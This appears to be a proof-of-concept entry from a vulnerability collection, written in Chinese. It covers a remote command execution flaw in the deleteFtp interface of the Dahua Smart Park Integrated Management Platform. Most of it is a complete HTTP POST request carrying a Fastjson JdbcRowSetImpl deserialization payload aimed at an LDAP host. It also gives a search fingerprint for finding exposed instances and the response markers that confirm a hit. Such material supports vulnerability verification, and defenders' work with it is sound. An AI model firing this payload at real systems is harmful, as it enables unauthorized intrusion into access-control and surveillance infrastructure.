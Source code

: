 ﻿# 大华智慧园区综合管理平台deleteFtp接口远程命令执行漏洞

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明：大华智慧园区综合管理平台deleteFtp接口存在远程命令执行漏洞。

> 漏洞特征：app="dahua-智慧园区综合管理平台"

> 验证脚本：HTTP

```
POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1
Connection: close
Content-Type: application/json
Accept-Encoding: gzip, deflate, br

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://www.baidu.com","autoCommit":true}}}
```

> 响应代码特征：200

> 响应内容特征：autoCommit

> 上传文件定位：

> 验证文件来源：大华智慧园区综合管理平台deleteFtp接口远程命令执行漏洞.poc
